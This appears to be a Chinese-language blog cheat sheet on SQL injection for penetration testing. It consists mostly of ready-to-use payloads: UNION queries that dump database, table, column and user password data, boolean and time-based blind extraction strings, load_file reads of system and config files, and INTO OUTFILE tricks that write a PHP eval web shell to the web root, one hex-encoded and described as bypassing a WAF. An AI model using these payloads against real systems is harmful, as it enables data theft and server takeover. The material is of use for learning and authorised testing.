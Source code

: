 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: SQL注入
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-18
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - SQL注入
comment: false
---
```

## 一. 普通手动注入
 ### 1. 判断是否存在注入点
```sql
单引号， and 1=1 ，and 1=2 ，双引号，反斜杠，注释等
```
根据报错信息，返回内容判断是否存在sql注入
### 2. 判断是否存在注入点
逐步提高order by 1列号，出现错误时表示超过表的列数
```sql
order by 1 --
```
### 3. 判断字段的显示位
观察1，2，3的显示位置判断字段显示位
```sql
union select 1,2,3 --
```
### 4. 获取当前数据库信息
database(): 查看当前数据库名称
version(): 查看数据库版本信息
user(): 返回当前数据库连接使用的用户
可以使用group_concat()函数将多个字段连在一起当作一个字段中显示
```sql
union select 1,group_concat(database(),version()),3 --
```
### 5. 获取数据库中的表信息
ps：table_schema='数据库名'
```sql
union select 1,group_concat(char(32),table_name,char(32)),3 from information_schema.tables where table_schema='security' -- '
```
### 6.获取表中的列信息
```sql
union select 1,group_concat(char(32),column_name,char(32)),3 from information_schema.columns where table_name='users' -- '
```
### 7.获取数据
```sql
union select 1,group_concat(char(32),username,char(32),password),3 from users -- '
```

## 二. bool盲注
### 1.猜测长度
```sql
and length(database())>1 #
```
### 2.猜测库名
```sql
and ascii(substr(database(),1,1))>97 #
```
### 3.猜测表名
- 猜测表的数量
```sql
and (select count(table_name) from information_schema.tables where table_schema=database())=2#
```
- 猜测表的长度
```sql
and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #
```
- 获取表名
```sql
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 #
```

### 4. 猜测字段长度
```sql
and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 #
```

### 5.猜测字段
```sql
and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120 #
```

## 三. 基于时间的盲注
### 1. 判断数据库长度
```sql
and if(length(database())=4,sleep(3),1) #
```
### 2. 猜测数据库名称
```sql
and if(ascii(substr(database(),1,1))>97,sleep(3),1)#
```
### 3. 猜测表的数量
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```
### 4. 猜测表名的长度
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```

### 5. 猜测字段
```sql
and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120,sleep(5),1) #
```
## 四. 其他函数
- MID(ColumnName, Start, Length]) - 用于从文本字段中提取字符
```sql
SELECT MID(column_name,start,length]) FROM table_name
```
- LEFT(str,len) - 返回字符串str的最左面len个字符
- ASCII(str) - 返回字符串str的最左面字符的ASCII代码值。如果str是空字符串，返回0。如果str是NULL，返回NULL
```sql
ascii(substr((select table_name from information_schema.tables where table_schema =database()limit 0,1),1,1))=101 –+
```
- CAST() - 将目标str转化为目标数据类型
```sql
SELECT CAST(’12’ AS int)     
```
- IFNULL(expr1,expr2) - 如果expr1不是NULL，IFNULL()返回expr1，否则它返回expr2
- LOAD_FILE
说明：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码
  ```sql
  -1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))
  ```
说明：“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69”
  ```sql
  -1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)
  ```
将其他路径包含一句话木马的文件导出成php来链接
  ```sql
  select load_file('c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini') into outfile 'c:\\wamp\\www\\test.php'
  ```

### 五. 读文件/写shell
  - union方式  
    ```sql
    -1 union select 1,user(),3 into outfile "C:\\test.txt" --+
    ```
  - 16进制写shell <    ?   eval($_POST[x]);?>可以过waf
    ```sql
    -1 union select 0x3c,0x3f,0x6576616C28245F504F53545B785D293B3F3E into outfile "C:\\test.php" --+
    ```
  - 分隔符写shell
  ```sql
  select * from admin where id=1 into outfile 'F:\WWW\phpinfo.php' fields terminated by '<? phpinfo(); ?>'%23     #分隔符也可以用16进制表示
  ```
  - 读文件
  ```sql
  select load_file('c:/boot.ini')
  ```
